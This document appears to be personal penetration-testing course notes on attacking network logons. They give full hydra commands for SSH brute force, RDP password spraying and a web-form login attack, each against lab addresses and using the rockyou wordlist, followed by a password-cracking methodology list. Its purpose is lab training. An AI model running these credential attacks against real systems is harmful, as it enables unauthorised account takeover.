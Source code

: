 
## 15.1 Attacking Network Service Logons


##### SSH and RDP
- Use hydra to conduct password attack
	- one username -> many passwords
	- specify alt port with -s
	- -l for username
- Can also conduct spray 
	- many usernames -> one password
	- -p for password

Steps
1. Unpack rockyou textfile
2. Run attack (against SSH)
3. Run spray (against RDP)

```
2. sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

3. sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```


##### HTTP POST Login Form
- Many web services have default user and admin accounts 
- To attack web service, Hydra needs POST data and an example failed login
	- use Burp to capture user/pass fortmat
	- use browser for url subpage and invalid return string
- Example hydra line: sudo hydra -l [usr] -P [wordlist] 192.168.50.201 http-post-form "[login-subpage]:[user/password]:[invalid-return]"
	- sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

Steps:
1. identify login url
2. start burp
3. send invalid login attempt and capture relevant info
4. send hydra request


```
4. sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```


## 15.2 Password Cracking


##### Cracking Methodology
1. Extract hashes
2. Format hashes
3. Calculate the cracking time
4. Prepare/mutate wordlist
5. Attack the hash
